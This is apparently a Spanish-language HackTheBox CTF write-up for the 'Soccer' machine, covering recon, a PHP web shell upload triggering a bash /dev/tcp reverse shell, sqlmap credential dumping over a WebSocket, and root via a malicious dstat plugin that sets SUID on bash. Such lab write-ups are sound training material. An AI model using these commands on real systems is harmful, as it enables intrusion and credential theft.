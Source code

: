 ```yaml
---
layout: single
title: Soccer - HackTheBox
excerpt: " This CTF focuses on success through enumeration. "
date: 2023-06-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-soccer/soccer.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - mysql
  - ssh
  - suid
---
```


This CTF focuses on success through enumeration.

<p style="text-align: center;">
<img src="/blog/assets/images/htb-writeup-soccer/soccer.png">
</p>




# Summary
- IP: 10.10.11.194
- Ports: 22,80,9091
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	- 80 -> nginx 1.18.0
	- 9091 -> xmltec-xmlmail?

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` bash
$sudo nmap -p22,80,9091 -sCV 10.10.116.216 -oN targeted
``` 

- Reconocimiento de directorios con gobuster:

```bash
$gobuster dir -u soccer.htb -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x php
```

- Encontramos el directorio "/tiny", accedemos y nos encontramos con un login de "Tiny File Manager", buscamos en google las credenciales por defecto de este recurso y probamos.

- Accedemos como admin, analizamos la web, nos permite subida de archivos en el directorio "/uploads", subimos un PHP con una reverse shell y accedemos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.85/443%200%3E%261%22
```

- Como el usuario www-data buscamos recursos para escalar privilegios:
- Recordamos que el puerto 9091 estaba aabierto, sospechamos de un websocket, lo comprobamos:

```bash
websocat ws://soccer.htb:9091 -v
```

- Confirmado ya que se trata de un Web Socket, buscamos vulnerabilidades para la misma, encontramos este artículo [Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

- Ejecutamos la script de python para redireccionar los datos de la ws y poder acceder a estos como localhost para realizar un ataque de SQL Injection:
- Cambiamos los campos "ws-server" por el puerto 9091 y "data" por "id"

```bash
$python3 exploit.py
```

- Ahora atacamos con sqlmap. primero en búsqueda de los nombres de las bases de datos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" --dbs
```

- Ahora buscamos las tablas que hay en la BD "soccer_db":

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db --tables
```

- Enumeramos las columnas de esta tabla:

```bash
 sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts --columns
```

- Encontramos las columnas username y password, las dumpeamos:

```bash
sqlmap -u "http://127.0.0.1:8081/?id=1" -D soccer_db -T accounts -C username,password -dump
```

- Obtenemos la contraseña del usuario "player" accedemos por SSH:

```bash
$ssh player@10.10.103.124
```

- Obtenemos la primera flag.

# Escalando privilegios:


- Buscamos permisos SUID:

```bash
$ find / -perm -4000 2>/dev/null
```

- Nos encontramos con "doas", buscamos todos los archivos doas que hayan:

```bash
$ find -name doas 2>/dev/null l grep doas
```

- Nos encontramos un "doas.conf", lo leemos, nos dice que un binario dstat se puede ejecutar como root sin contraseña:

```bash
/usr/bin/dstat
$ doas -u root /usr/bin/dstat
```

- Tenemos capacidad de escritura en la ruta share/dstat que es en donde se guardan los plugins:
```bash
$ ls -la /usr/local/share/dstat
```

- Nos creamos un plugin .py que otorgue permisos SUID a la bash y lo ejecutamos como root:
```bash
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
bash -P
```

- Ya somos ROOT y obtenemos la flag.

